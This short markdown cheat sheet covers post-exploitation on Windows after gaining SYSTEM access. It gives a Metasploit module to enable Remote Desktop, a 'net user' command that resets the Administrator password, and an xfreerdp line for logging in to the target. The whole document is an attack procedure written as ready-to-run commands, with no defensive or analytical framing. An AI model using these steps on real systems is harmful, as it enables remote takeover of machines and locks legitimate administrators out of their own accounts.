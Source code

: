 
# Enabling RDP on Windows (Post-Exploitation)

After gaining **NT AUTHORITY/SYSTEM** access:

---

## 1. Enable RDP with Metasploit
```bash
use post/windows/manage/enable_rdp
set SESSION 1
set USER Administrator       # optional
set PASSWORD password_12345  # optional
run

---

## 2. Change Password (from Meterpreter)

```bash
> shell
net user Administrator password_111112
exit
```

---

## 3. Connect via RDP

```bash
xfreerdp /v:<target_ip> /u:Administrator /p:password_111112
```

---
